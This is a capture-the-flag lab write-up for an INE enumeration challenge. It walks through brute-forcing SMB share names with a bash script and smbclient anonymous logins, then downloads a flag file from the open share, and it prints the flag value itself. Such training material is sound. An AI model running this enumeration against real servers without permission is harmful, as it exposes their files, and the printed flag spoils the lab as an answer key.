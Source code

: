 # SMB Enumeration: Anonymous Access

## Challenge Title
SMB Share with Anonymous Access

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Description

The goal of this challenge is to identify an SMB share that allows **anonymous access**, enumerate its contents, and retrieve a hidden flag.

---

## Tools Used

- `smbclient`: to query SMB shares
- `bash`: to script brute-force enumeration of share names
- `nano` / `chmod`: to edit and execute the script

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Initial Enumeration with `smbclient`

```bash
smbclient -L //target.ine.local -N
```
![Step 1 - Initial SMB Error](./1.png)

### 🔹 Step 2: Create Enumeration Script (shares.sh)

```bash
nano shares.sh
```
Paste the following script:
```bash
#!/bin/bash

TARGET="target.ine.local"
WORDLIST="./shares.txt"

if [ ! -f "$WORDLIST" ]; then
    echo "Wordlist not found: $WORDLIST"
    exit 1
fi

while read -r SHARE; do
    echo "Testing share: $SHARE"
    smbclient //$TARGET/$SHARE -N -c "ls" &>/dev/null

    if [ $? -eq 0 ]; then
        echo "[+] Anonymous access allowed for: $SHARE"
    else
        echo "[-] Access denied for: $SHARE"
    fi
done < "$WORDLIST"
```
Make it executable:
```bash
chmod +x shares.sh
```
![Step 2 - Created Script](./2.png)

### 🔹 Step 3: Create the Wordlist (shares.txt)
```text
publicdata
communitydata
openstorage
freestorage
accessiblestorage
pubstorage
commonstorage
publicarchive
sharedarchive
commonarchive
pubarchive
opendocs
freedocs
communitydocs
accessibledocs
commondocs
pubdocs
publicfiles
openfiles
freefiles
sharedfiles
accessiblefiles
communityfiles
commonsfiles
pubfiles
openvault
freevault
accessiblevault
publicvault
commonvault
openlibrary                                                                                                                                                                                                                                
pubvault                                                                                                                                                                                                                                   
freelibrary                                                                                                                                                                                                                                
accessiblelibrary                                                                                                                                                                                                                          
worldstoragebin                                                                                                                                                                                                                            
universalstoragebin                                                                                                                                                                                                                        
sharedstoragebin                                                                                                                                                                                                                           
collectivestoragebin                                                                                                                                                                                                                       
mutualstoragebin                                                                                                                                                                                                                           
globalarchivebin
worldarchivebin
universalarchivebin
```

### 🔹 Step 4: Run the Script
```bash
./shares.sh
```
![Step 3 - Brute Forcing Shares](./3.png)

Output:
You’ll see lots of denied messages until:
```css
[+] Anonymous access allowed for: pubfiles
```
![Step 4 - Found Anonymous Access](./4.png)

That means pubfiles is accessible anonymously.

### 🔹 Step 5: Access the Share
```bash
smbclient //target.ine.local/pubfiles -N
```
List contents:
```bash
smb: \> ls
```
You’ll see something like:
flag1.txt

### 🔹 Step 6: Download the Flag
```bash
smb: \> get flag1.txt
```
Exit the session:
```bash
smb: \> exit
```
![Step 5 - Retrieved Flag](./5.png)

### 🔹 Step 7: View the Flag
```bash
cat flag1.txt
```
![Step 6 - Viewed Flag Content](./6.png)

✅ Final Output:
FLAG{56a55b23a464f5b8893fe22c6e3d611}

## Conclusion
This lab highlights the importance of checking for misconfigured Samba shares that allow anonymous access. Attackers can exploit this to discover sensitive files like backup data, credentials, or flags.

## Files Included
- `shares.sh`: The script used to enumerate shares
- `shares.txt`: Wordlist of possible SMB share names
- Screenshots: 1.png → 6.png (steps of the challenge)
